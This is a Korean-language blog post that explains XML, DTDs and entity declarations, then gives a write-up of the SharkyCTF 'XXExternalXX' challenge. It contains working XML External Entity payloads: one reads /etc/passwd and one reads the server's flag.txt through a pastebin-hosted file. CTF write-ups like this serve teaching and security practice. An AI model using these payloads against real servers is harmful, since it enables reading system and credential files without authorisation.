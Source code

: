```yaml
---
title : "XXE"
excerpt : "XXE"
toc : true
toc_sticky : true
categories :
  - Web
tags :
  - XXE
  - SharkyCTF XXExternalXX
---
```


## 1. XML
```
<?xml version="1.0" encoding="UTF-8" ?>     XML 선언문
<foods> XML root 요소 -> 가장 바깥 요소로 단일계층이어야 함.
    <food> 요소
        <name>바나나</name>   # food 요소 내용, name 요소 값은 바나나
        <color>노랑</color>   # food 요소 내용, color 요소 값은 노랑
    </food> 
    <food> 
        <name>사과</name> 
        <color>빨강</color> 
    </food> 
</foods>
```
### 1-1. DTD(Document Type Definition)
DTD(Document Type Definition)는 XML의 구조를 정의하는데 사용하는 것으로 XML의 구조를 정의한 DTD와 XML 문서를 연결할 시에는 문서형 선언(DOCTYPE 선언)를 사용함.   
내부 또는 외부에 기술된 DTD와 XML 문서를 연결할 수 있다.  
**DTD는 엔티티를 정의할 수 있으며**, 빠른 개발을 위한 내부 DTD를 사용할 수 있음.  
괄호([]) 안에는 내부 서브셋(subset)이라 불리는 추가로 선언한 엔티티(entity)의 리스트가 존재함.  
```
#내부
<!DOCTYPE 루트요소[ 
    <!-- 내부 서브셋 작성 --> 
]>
```
```
#외부
<!DOCTYPE 루트요소 SYSTEM "URI"[ 
    <!-- 내부 서브셋 작성 -->
]>
```
### 1-2. Entities
XML에서 미리 예약된 엔티티는 다음과 같음.  
```
1. &lt;
2. &gt;
3. &amp;
4. &quot;
5. &apos;
```  
위와 같은 다섯 개의 엔티티를 제외한 모든 엔티티는 반드시 사용하기 전에 DTD에서 선언해야 함.  
DTD에서 엔티티는 XML 문서나 DTD 내부에 선언할 수도 있으며, 파일 외부에 선언할 수도 있음.  
```
문법
#내부
<!ENTITY 엔티티이름 "엔티티값">
``` 
```
DTD 예제
<!ENTITY css "Cascading Style Sheets">
```
```
XML 예제
<lecture>&css;</lecture> // 출력 결과 -> <lecture>Cascading Style Sheets<lecture>
```  
외부에 파일 형태로 선언되는 외부 엔티티는 다른 DTD 문서에서 재사용할 수 있음.  
문서 외부에 존재하는 외부 엔티티는 다음과 같이 SYSTEM 키워드를 사용하여 선언할 수 있음.  
```
#외부
<!ENTITY 엔티티이름 SYSTEM "URI또는URL">
```
```
DTD 예제
<!ENTITY html SYSTEM "http://codingsam.com/xml/html.dtd">
```
```
XML 예제
<lecture>&html;</lecture> // 출력 결과 -> <lecture>HyperText Markup Language<lecture>
```
선언된 엔티티는 XML 문서에서 AND기호(&) + 엔티티 이름 + 세미콜론(;)의 형식으로 사용함.   
출처: <a href="http://tcpschool.com/xml/xml_dtd_entityDeclaration" target="_blank">http://tcpschool.com/xml/xml_dtd_entityDeclaration</a> 

## 2. XXE (XML External Entity)
위의 내용을 토대로 예시를 보면 
```
<?xml version=”1.0" encoding=”UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```  
SYSTEM을 통해 외부 파일인 서버에 있는 /etc/passwd파일을 읽어오고 xxe엔터티 값을 출력해주면 /etc/passwd 파일 내용이 출력이 됨. 

응용 기법들은 여기 : <a href="https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9" target="_blank">https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9</a> 

## 3. SharkyCTF - XXExternalXX 
```
One of your customer all proud of his new platform asked you to audit it.
To show him that you can get information on his server, 
he hid a file "flag.txt" at the server's root.

xxexternalxx.sharkyctf.xyz

Creator : Remsio
```
<img src="/assets/images/sharkyctf-XXExternalXX.jpg">
문제에서 news section으로 가라해서 갔더니 data.xml 파일을 불러와서 출력된 화면이 나옴.  
data.xml 파일을 확인해보았음. 확인하는 이유는 요소의 이름을 알아야 하기 때문임.  
<img src="/assets/images/sharkyctf-XXExternalXX-xml.jpg">
문제 제목에서부터 XXE를 하라했고 flag.txt를 서버의 root에 숨겨놓았다고 했기 때문에 flag.txt 파일을 읽어와야 함.  
따라서 코드를 짜면 다음과 같음. 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY flag SYSTEM "file:///flag.txt"> ]>
<root>
    <data> The flag is &flag;</data>
</root>
```    
<a href="https://pastebin.com/" target="_blank">https://pastebin.com/</a>이라는 사이트를 이용함.      
![](/assets/images/sharkyctf-XXExternalXX-injection.jpg){: .align-center} 
create를 하면 임의의 사이트가 생성이 되고 raw를 통해 xml파일을 볼 수 있음.     
![](/assets/images/sharkyctf-XXExternalXX-parsebin.jpg){: .align-center}    
이 주소를 xml의 값으로 전달해주면 flag가 출력됨.  
![](/assets/images/sharkyctf-XXExternalXX-flag.jpg){: .align-center}
```
flag : shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}
```
